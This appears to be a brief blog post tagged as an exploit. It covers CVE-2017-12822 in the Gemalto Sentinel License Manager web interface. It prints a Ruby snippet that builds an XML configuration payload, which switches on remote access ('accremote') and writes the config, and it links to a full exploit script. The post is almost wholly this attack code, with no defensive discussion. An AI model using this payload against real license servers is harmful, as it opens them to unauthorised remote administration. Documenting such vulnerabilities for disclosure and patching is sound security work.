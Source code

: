 ```yaml
---
layout: post
title: Sentinel License Manager 
date: 2019-10-30
excerpt: "."
tags: [exploit]
comments: false
---
```

## Gemalto Sentinel License Manager Web Interface
CVE-2017-12822 is simply this.
```
xml = %Q|<?xml version="1.0" encoding="UTF-8" ?>
<config>
   <accremote>#{on_off.to_i}</accremote>
   <pagerefresh>2</pagerefresh>
   <writeconfig />
</config>
|
```
[CVE-2017-12822.rb](https://github.com/ceballosm/scratchpad/blob/master/CVE-2017-12822.rb)
